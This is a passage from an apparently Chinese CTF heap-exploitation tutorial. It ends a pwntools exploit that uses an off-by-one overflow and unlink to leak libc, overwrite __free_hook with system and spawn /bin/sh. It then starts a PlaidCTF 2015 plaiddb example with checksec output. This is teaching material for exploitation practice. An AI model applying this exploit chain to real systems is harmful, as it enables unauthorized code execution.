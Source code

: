 ```
    create(0x20, 'name', 0x100 - 0x10, 'target') # 5
    create(0x20, '/bin/sh\x00', 0x200, 'to arbitrary read write') # 6

    edit(4, payload) # overflow
    remove(5) # unlink

    edit(4, p64(0x30) + p64(4) + p64(heap_base + 0x11a0) + p64(heap_base + 0x10c0) + '\n')

    def write_to(addr, content, size):
        edit(4, p64(addr) + p64(size + 0x100) + '\n')
        edit(6, content + '\n')

    def read_at(addr):
        edit(4, p64(addr) + '\n')
        cmd(4)
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        content = p.recvline()[:-1]
        p.info(content)
        return content

    libc_leak = u64(read_at(heap_base + 0x11e0).ljust(8, '\x00')) - 0x3c4b78
    p.info('libc leak @ 0x%x' % libc_leak)

    write_to(libc_leak + libc.symbols['__free_hook'], p64(libc_leak + libc.symbols['system']), 0x10)
    remove(6)

    p.interactive()

if __name__ == '__main__':
    main()
```

## 實例 2 : plaidctf 2015 plaiddb

```shell
➜  2015_plaidctf_datastore git:(master) file datastore
datastore: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=1a031710225e93b0b5985477c73653846c352add, stripped
➜  2015_plaidctf_datastore git:(master) checksec datastore
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/off_by_one/2015_plaidctf_datastore/datastore'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
➜  2015_plaidctf_datastore git:(master)
```
